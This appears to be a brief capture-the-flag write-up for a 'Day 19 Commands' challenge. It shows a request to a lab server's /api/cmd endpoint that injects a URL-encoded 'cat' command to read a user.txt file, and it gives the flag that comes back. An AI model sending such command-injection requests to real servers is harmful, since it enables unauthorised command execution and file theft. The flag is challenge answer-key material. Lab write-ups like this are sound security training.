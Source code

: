 # [Day 19] Commands

## Description
Another day, another hack from the Christmas Monster. Can you get back control of the system?

Access the web server on http://[your-ip]:3000/

McSkidy actually found something interesting on the /api/cmd endpoint.

Check out the supporting material here.

----

## Answer the questions below

### What are the contents of the user.txt file?

Url: http://10.10.186.255:3000/api/cmd/cat%20%2Fhome%2Fbestadmin%2Fuser.txt

Answer: `5W7WkjxBWwhe3RNsWJ3Q`
